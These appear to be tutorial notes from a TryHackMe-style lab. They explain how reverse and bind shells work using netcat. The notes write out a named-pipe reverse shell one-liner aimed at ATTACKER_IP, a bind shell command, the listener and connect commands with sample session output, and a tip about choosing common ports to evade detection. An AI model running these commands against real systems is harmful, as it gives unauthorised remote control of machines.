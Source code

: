 ### How Reverse Shells work
##### First, we set up a nc listener
```shell-session
attacker@kali:~$ nc -lvnp 443
listening on [any] 4444 ...
```

-l = wait for a connection
-v = verbose mode
-n = prevents connections from DNS for lookup, it will not resolve hostnames it will only use an IP address
-p = especify the used port (generally we use known ports in order to try to dodge being detected, such as 53, 80, 8080, 443, 139 or 445)

##### Secondly, we try to gain reverse shell access
As an example, let's analyze an example payload named a **pipe reverse shell**, as shown below.

`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f`

**Explanation of the Payload**

- `rm -f /tmp/f` - This command removes any existing named pipe file located at `/tmp/f/`. This ensures that the script can create a new named pipe without conflicts.
- `mkfifo /tmp/f` - This command creates a named pipe, or FIFO (first-in, first-out), at `/tmp/f`. Named pipes allow for two-way communication between processes. In this context, it acts as a conduit for input and output.
- `cat /tmp/f` - This command reads data from the named pipe. It waits for input that can be sent through the pipe.
- `| bash -i 2>&1` - The output of `cat` is piped to a shell instance (`bash -i`), which allows the attacker to execute commands interactively. The `2>&1` redirects standard error to standard output, ensuring that error messages are sent back to the attacker.
- `| nc ATTACKER_IP ATTACKER_PORT >/tmp/f` - This part pipes the shell's output through `nc` (Netcat) to the attacker's IP address (`ATTACKER_IP`) on the attacker's port (`ATTACKER_PORT`).
- `>/tmp/f` -This final part sends the output of the commands back into the named pipe, allowing for bi-directional communication.

##### the last step: the attacker receives the shell
Once the above payload is executed, we receive a reverse shell, allowing us to eexecute commands as if we were logged inside a regular terminal in the system

```shell-session
attacker@kali:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.4.99.209] from (UNKNOWN) [10.10.13.37] 59964
To run a command as administrator (user "root"), use "sudo ".
See "man sudo_root" for details.

target@tryhackme:~$
```
---

### Bind Shell
A bind shell will bind a port on the compromised system and listen for a connection, when this connection occurs, it exposes the shell session so the ataccker can execute commands remotely
It can be used when the target does not allow outgoing connections, but it is usually less popular since it needs to remain active and listen for connections, which can sometimes lead to being detected more easily

**Setting Up the Bind Shell on the Target**

Let's create a bind shell. In this case, the attacker can use a command like the one below on the target machine.

`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f`

**Explanation of the Payload**

- `rm -f /tmp/f` - This command removes any existing named pipe file located at `/tmp/f/`. This ensures that the script can create a new named pipe without conflicts.
- `mkfifo /tmp/f` - This command creates a named pipe, or FIFO, at `/tmp/f`. Named pipes allow for two-way communication between processes. In this context, it acts as a conduit for input and output.
- `cat /tmp/f` - This command reads data from the named pipe. It waits for input that can be sent through the pipe.
- `| bash -i 2>&1` - The output of `cat` is piped to a shell instance (`bash -i`), which allows the attacker to execute commands interactively. The `2>&1` redirects standard error to standard output, ensuring error messages are returned to the attacker.
- **`| nc -l 0.0.0.0 8080`** - Starts Netcat in listen mode (`-l`) on all interfaces (`0.0.0.0`) and port `8080`. The shell will be exposed to the attacker once they connect to this port.
- `>/tmp/f` This final part sends the commands' output back into the named pipe, allowing for bidirectional communication.

The command above will listen for incoming connections and expose a bash shell. We need to note that ports below 1024 will require Netcat to be executed with elevated privileges. In this case, using port 8080 will avoid this.

**Terminal on the Target Machine (Bind Shell Setup)**

```shell-session
target@tryhackme:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```

Once the command is executed, it will wait for an incoming connection, as shown above.

**Attacker Connects to the Bind Shell**

Now that the target machine is waiting for incoming connections, we can use Netcat again with the following command to connect.

`nc -nv TARGET_IP 8080`

**Explanation of the command**

- `nc` - This invokes Netcat, which establishes the connection to the target.
- `-n` - Disables DNS resolution, allowing Netcat to operate faster and avoid unnecessary lookups.
- `-v` - Verbose mode provides detailed output of the connection process, such as when the connection is established.
- `TARGET_IP` - The IP address of the target machine where the bind shell is running.
- `8080` - The port number on which the bind shell listens.

**Attacker Terminal (After Connection)**

Terminal

```shell-session
attacker@kali:~$ nc -nv 10.10.13.37 8080 
(UNKNOWN) [10.10.13.37] 8080 (http-alt) open
target@tryhackme:~$
```

After connecting, we can get a shell, as shown above, and execute commands.

## Web Shell

a script written in a language supported by a compromised web server that executes commands through the web server itself. Usually a file containing the code that executes commands and handles files